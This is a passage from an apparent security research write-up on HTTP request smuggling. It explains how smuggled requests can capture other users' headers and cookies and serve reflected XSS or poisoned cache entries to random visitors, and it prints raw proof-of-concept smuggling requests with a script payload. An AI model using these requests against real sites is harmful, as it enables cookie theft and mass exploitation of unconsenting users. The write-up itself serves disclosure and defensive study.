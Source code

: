 x=x&csrf=1234&username=testzzz&bio=cake
0

GET / HTTP/1.1
Host: trello.com
As soon as the victim's request arrived, it would end up saved on my profile, exposing all their headers and cookies:


The only major 'gotcha' with this technique is that you'll lose any data that occurs after an '&', which makes it hard to steal the body from form-encoded POST requests. I spent a while trying to work around this limitation by using alternative request encodings and ultimately gave up, but I still suspect it's possible somehow.

Data storage opportunities aren't always as obvious as this; on another site, I was able to use the 'Contact Us' form, eventually triggering an email containing the victim's request and earning an extra $2,500.

Attack
Being able to apply an arbitrary prefix to other people's responses also opens up another avenue of attack: triggering a harmful response.

There are two primary ways of using harmful responses. The simplest is to issue an 'attack' request, then wait for someone else's request to hit the back-end socket and trigger the harmful response. A trickier but more powerful approach is to issue both the 'attack' and 'victim' requests ourselves, and hope that the harmful response to the victim request gets saved by a web cache and served up to anyone else who hits the same URL - web cache poisoning.

In each of the following request/response snippets, the black text is the response to the second (green) request. The response to the first (blue) request is omitted, as it isn't relevant.

Upgrading XSS
While auditing a SaaS application, Param Miner spotted a parameter called SAML and Burp's scanner confirmed it was vulnerable to reflected XSS. Reflected XSS is nice by itself, but tricky to exploit at scale because it requires user-interaction.

With request smuggling, we can make a response containing XSS get served to random people actively browsing the website, enabling straightforward mass-exploitation. We can also gain access to authentication headers and HTTP only cookies, potentially letting us pivot to other domains.

POST / HTTP/1.1
Host: saas-app.com
Content-Length: 4
Transfer-Encoding : chunked

10
=x&cr={creative}&x=
66
POST /index.php HTTP/1.1
Host: saas-app.com
Content-Length: 200

SAML=a"><script>alert(1)</script>POST / HTTP/1.1
Host: saas-app.com
Cookie: …

HTTP/1.1 200 OK
…
<input name="SAML"   value="a"><script>alert(1)</script>
0
